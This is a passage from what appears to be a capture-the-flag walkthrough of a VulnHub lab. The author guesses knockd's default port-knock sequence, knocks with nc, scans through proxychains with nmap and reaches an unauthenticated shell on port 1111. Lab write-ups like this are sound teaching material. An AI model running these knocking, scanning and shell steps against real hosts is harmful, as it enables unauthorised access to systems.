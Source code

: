 Only `tcp/22`. :s

I started working back a little bit to some of the previous machines in search for clues, but, found nothing concrete. Remembering the port knocking daemon used in [Knock Knock](http://vulnhub.com/entry/knock-knock-11,105/) (`knockd`), I went and searched for its configuration file, looking for the default port sequence it is configured with. I found the config file [here](https://github.com/jvinet/knock/blob/master/knockd.conf), which revealed the default sequence of: `7000,8000,9000`. So, I tested this by attempting to connect with `nc` to these ports on **192.168.4.100**, and following up with a nmap:

```bash
terra@dev2:~$ nc -v 192.168.4.100 7000 -w 1; nc -v 192.168.4.100 8000 -w 1; nc -v 192.168.4.100 9000 -w 1
192.168.4.100: inverse host lookup failed: Host name lookup failure
(UNKNOWN) [192.168.4.100] 7000 (afs3-fileserver) : Connection refused
192.168.4.100: inverse host lookup failed: Host name lookup failure
(UNKNOWN) [192.168.4.100] 8000 (?) : Connection refused
192.168.4.100: inverse host lookup failed: Host name lookup failure
(UNKNOWN) [192.168.4.100] 9000 (?) : Connection refused
terra@dev2:~$
```

The nmap after the knock:

```bash
root@kali:~# proxychains nmap -sT 192.168.4.100
ProxyChains-3.1 (http://proxychains.sf.net)

Starting Nmap 6.46 ( http://nmap.org ) at 2014-11-09 17:45 SAST
Nmap scan report for 192.168.4.100
Host is up (0.0015s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
1111/tcp open  lmsocialserver

Nmap done: 1 IP address (1 host up) scanned in 1.71 seconds

```

A new port! `tcp/1111` :) Lets check it out.

```bash
root@kali:~# proxychains nc 192.168.4.100 1111
ProxyChains-3.1 (http://proxychains.sf.net)

# a new connection has no output. Only after typing
# 'crap' do you realise you have a sh session open

id
uid=1000(locke) gid=1000(locke) groups=1000(locke)
```

Shell access as `locke` on **192.168.4.100**. Nice :D To help me ensure I can comprehend where I am in the network, consider the following diagram, which is turning into a mess thanks to how deep this whole is... The new connection denoted in red again:
